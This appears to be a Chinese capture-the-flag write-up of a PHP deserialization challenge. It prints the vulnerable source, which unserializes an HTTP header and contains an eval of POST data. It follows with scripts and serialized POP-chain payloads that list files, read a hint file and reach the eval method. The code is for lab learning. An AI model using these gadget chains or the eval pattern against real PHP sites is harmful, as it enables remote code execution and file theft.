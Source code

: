 ~~~
<?php

# 根目录中有一个txt文件哦
error_reporting(0);
show_source(__FILE__);
include("check.php");

class EeE{
    public $text;
    public $eeee;
    public function __wakeup(){
        if ($this->text == "aaaa"){
            echo lcfirst($this->text);
        }
    }

    public function __get($kk){
        echo "$kk,eeeeeeeeeeeee";
    }

    public function __clone(){
        $a = new cycycycy;
        $a -> aaa();
    }
    
}

class cycycycy{
    public $a;
    private $b;

    public function aaa(){
        $get = $_GET['get'];
        $get = cipher($get);
        if($get === "p8vfuv8g8v8py"){
            eval($_POST["eval"]);
        }
    }


    public function __invoke(){
        $a_a = $this -> a;
        echo "\$a_a\$";
    }
}

class gBoBg{
    public $name;
    public $file;
    public $coos;
    private $eeee="-_-";
    public function __toString(){
        if(isset($this->name)){
            $a = new $this->coos($this->file);
            echo $a;
        }else if(!isset($this -> file)){
            return $this->coos->name;
        }else{
            $aa = $this->coos;
            $bb = $this->file;
            return $aa();
        }
    }
}   

class w_wuw_w{
    public $aaa;
    public $key;
    public $file;
    public function __wakeup(){
        if(!preg_match("/php|63|\*|\?/i",$this -> key)){
            $this->key = file_get_contents($this -> file);
        }else{
            echo "不行哦";
        }
    }

    public function __destruct(){
        echo $this->aaa;
    }

    public function __invoke(){
        $this -> aaa = clone new EeE;
    }
}

$_ip = $_SERVER["HTTP_AAAAAA"];
unserialize($_ip);
~~~



首先我们看到最下面这里是$ip = $SERVER["HTTP_AAAAAA"]; 这一句话的意思是接收header头中 aaaaaa参数的值，然后将其反序列化。 
然后根据提示在根目录中有一个txt文件，但是这里我们不知道他的文件名字是什么。
~~~
//获取文件名的序列化
<?php
class EeE
{
    public $text;
    public $eeee;
}

class gBoBg
{
    public $name;
    public $file;
    public $coos;
}

$a=new EeE;
$b=new gBoBg;
$a->text=$b;
$b->name="a";
$b->file="/*.txt";
$b->coos="GlobIterator";
echo serialize($a);
~~~
//O:3:"EeE":2:{s:4:"text";O:5:"gBoBg":3:{s:4:"name";s:1:"a";s:4:"file";s:6:"/*.txt";s:4:"coos";s:12:"GlobIterator";}s:4:"eeee";N;}
~~~
//获取文件内容的序列化
<?php
class EeE{
        public $text;
        public $eeee;
}
class w_wuw_w{
        public $aaa;
        public $key;
        public $file;
}
$a = new EeE;
$b = new w_wuw_w;
$a -> text = $b;
$b -> file = "/h1nt.txt";
$b -> aaa = &$b -> key;
echo serialize($a);
//O:3:"EeE":2:{s:4:"text";O:7:"w_wuw_w":3:{s:3:"aaa";N;s:3:"key";R:3;s:4:"file";s:9:"/h1nt.txt";}s:4:"eeee";N;}
~~~

#用于check.php 
key：qwertyuiopasdfghjklzxcvbnm123456789 
move：2~4

~~~
//到达aaa方法的序列化
<?php
class EeE{
        public $text;
        public $eeee;
}
class gBoBg{
        public $name;
        public $file;
        public $coos;
}
class w_wuw_w{
        public $aaa;
        public $key;
        public $file;
}
class cycycycy{
        
}

$a = new EeE;
$b = new gBoBg;
$c = new w_wuw_w;
$a -> text = $b;
$b -> file="a";
$b -> coos = $c;
$c -> aaa = $a;
echo serialize($a);
~~~
//O:3:"EeE":2:{s:4:"text";O:5:"gBoBg":3:{s:4:"name";N;s:4:"file";s:1:"a";s:4:"coos";O:7:"w_wuw_w":3:{s:3:"aaa";r:1;s:3:"key";N;s:4:"file";N;}}s:4:"eeee";N;}

  
